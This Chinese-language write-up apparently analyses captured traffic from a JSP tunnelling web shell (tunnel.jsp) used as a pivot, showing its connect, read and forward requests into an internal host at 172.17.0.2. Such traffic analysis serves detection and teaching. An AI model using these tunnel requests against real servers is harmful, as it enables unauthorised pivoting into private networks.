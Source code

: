 serverA

在serverA上抓包第一个流可以看到服务器A作为跳板，表明服务器与哪台内网主机的哪个端口连接cmd=connecttarget=172.17.0.2 目标内网ipport=80 端口为80

```yml
POST http://182.x.x.x:8080/tunnel.jsp?
cmd=connect&target=172.17.0.2&port=80 HTTP/1.1
Host: 182.x.x.x:8080
Accept-Encoding: identity
Content-Length: 0
X-CMD: CONNECT
X-PORT: 80
X-TARGET: 172.17.0.2
User-Agent: python-urllib3/1.26.2
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=C71AAD9AFD48C0E4796514EF6835F2B4; Path=/; HttpOnly
X-STATUS: OK
Content-Type: text/html
Content-Length: 0
Date: Thu, 17 Dec 2020 16:44:45 GMT
```

下一条流cmd=read,代表是去访问内网的内容

Accept-Encoding: identity请求的HTTP头通告其内容编码，只要没有被明确禁止

服务器就不能发回406 Not Acceptable错误

响应包头：Transfer-Encoding: chunked代表是分块传输

```yml
POST /tunnel.jsp?cmd=read HTTP/1.1
Host: 182.x.x.x:8080
Accept-Encoding: identity
Content-Length: 0
X-CMD: READ
Cookie: JSESSIONID=C71AAD9AFD48C0E4796514EF6835F2B4; Path=/; HttpOnly
Connection: Keep-Alive
User-Agent: python-urllib3/1.26.2
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
X-STATUS: OK
Content-Type: text/html
Transfer-Encoding: chunked
Date: Thu, 17 Dec 2020 16:44:45 GMT
```

接下来这条流就是cmd=forward，转发到内网

```yml
POST /tunnel.jsp?cmd=forward HTTP/1.1
Host: 182.92.73.106:8080
Accept-Encoding: identity
Content-Length: 83
Content-Type: application/octet-stream
X-CMD: FORWARD
Cookie: JSESSIONID=C71AAD9AFD48C0E4796514EF6835F2B4; Path=/; HttpOnly
Connection: Keep-Alive
User-Agent: python-urllib3/1.26.2
GET /login.php HTTP/1.1
Host: 172.17.0.2
User-Agent: curl/7.68.0
Accept: */*
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
X-STATUS: OK
Content-Type: text/html
Content-Length: 0
```